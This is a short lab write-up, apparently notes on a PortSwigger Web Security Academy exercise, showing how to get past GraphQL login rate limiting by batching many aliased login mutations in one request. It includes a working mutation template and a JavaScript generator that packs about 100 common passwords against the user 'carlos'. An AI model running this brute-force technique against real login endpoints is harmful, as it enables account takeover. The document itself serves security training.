 We need to use aliases here. Basically, it is make more than one attempt to login in only one request, otherwise it will block our requests
Bellow there is the code resulting from one script that portswigger gave us. (script in the botton)
![[Pasted image 20250208205522.png]]
```code
mutation {
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }
}
```

Before to send the request, we need to delete the "operationName" (I didnt get why)
![[Pasted image 20250208205737.png]]

After, we will receive a response with all the attempt, one of them has a success true. Them, I check the bruteforce11, which contain the pass
![[Pasted image 20250208205710.png]]


Javascript code to develop each request
```javascript
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```